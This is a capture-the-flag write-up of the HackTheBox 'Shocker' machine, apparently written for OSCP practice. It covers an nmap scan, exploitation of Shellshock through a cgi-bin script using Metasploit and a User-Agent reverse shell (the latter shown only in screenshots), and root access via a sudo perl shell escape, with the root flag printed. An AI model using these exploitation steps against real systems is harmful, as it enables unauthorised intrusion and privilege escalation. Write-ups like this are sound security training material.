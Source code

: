 ```yaml
---
title: HackTheBox - Shocker
date: 2020-12-23 13:32:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, dirb, cgi-bin, shellshock, CVE-2014-6271, metasploit, meterpreter, gtfobins, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/shocker.png
---
```


## Foothold

### `nmap` scan

```bash
$  nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Shocker-full-port-scan.txt 10.10.10.56
Nmap scan report for 10.10.10.56
Host is up (0.099s latency).
Not shown: 65532 closed ports
PORT      STATE    SERVICE VERSION
80/tcp    open     http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp  open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
53649/tcp filtered unknown
```

### Apache/2.4.18 (port 80) 

![dont-bug-me](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/dont-bug-me.png)

![dirb](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/dirb.png)

Seeing that there is a `/cgi-bin directory`, the webserver is probably vulnerable to Shellstock bash RCE.

> **Shellshock bash remote code execution vulnerability**: affects web servers utilizing **CGI** (**C**ommon **G**ateway **I**nterface) &rarr;  a system for generating dynamic web content. Directories such as `/cgi-sys`, `/cgi-mod`, `/cgi-bin` can be found.

Adding `-X .sh` to `dirb`, we found a [user.sh](http://10.10.10.56/cgi-bin/user.sh) file:

![user-sh](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/user-sh.png)

![user-sh-content](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/user-sh-content.png)


We can have a shell via `metasploit`:

![shellshock](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/shellshock.png)

![meterpreter](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/meterpreter.png)

However, since I do this box to get ready for **OSCP**, I want to exploit this vuln manually. Via `curl` or from `burp`, I replace `User-agent`'s content by a **reverse shell** payload:

![burp-1](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/burp-1.png)

First we've got the following error: `/bin/bash: bash: Nu such file or directory`.

So I replace `bash` by `/bin/bash` and it worked:

![burp-2](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/burp-2.png)

## User (shelly)

Flag:

![user-flag](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/user-flag.png)

We can run `perl` with sudo:

![sudo -l](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/sudo-l.png)

Let's check [GTFObins](https://gtfobins.github.io/gtfobins/perl/) privesc:

![gtfoperl](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/gtfoperl.png)

## Root

```bash
shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
sudo /usr/bin/perl -e 'exec "/bin/sh";'
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
cat root.txt 
9be1ed1fbbe0c3319f9cc05dbcdb7941
```

___

## Useful links

- [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271#vulnCurrentDescriptionTitle)
- [Exploit Shellshock on a Web Server Using Metasploit](https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/)
- [GTFObins](https://gtfobins.github.io/gtfobins/perl/)